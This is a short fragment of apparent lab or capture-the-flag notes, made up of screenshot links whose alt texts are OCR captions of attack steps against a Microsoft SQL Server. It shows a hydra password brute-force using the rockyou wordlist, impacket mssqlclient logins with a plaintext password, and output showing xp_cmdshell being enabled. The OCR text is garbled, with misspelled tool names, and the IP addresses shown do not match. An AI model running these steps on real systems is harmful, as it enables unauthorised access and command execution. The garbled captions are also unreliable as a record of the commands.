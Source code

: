 IP 192.168.0.144  
  
![- Shydra -L users.txt -P rockyou. Ext nssql: //192.168.10.144](Attachments/Pasted%20Graphic%2018.png)  
  
![Simpacket-nssqlclient Server_nssrv:Spidy@192.168.10.144](Attachments/Pasted%20Graphic%2020.png)  
  
![- Simpacket-assqlclient Server_mssrv:Spidy@192.168.10.144](Attachments/Pasted%20Graphic%2058.png)  
  
![(* INFO(SQL SIVISQLEXPRESS): Line 196: Configuration option "xp cdshell' chang](Attachments/Pasted%20Graphic%2059.png)  
  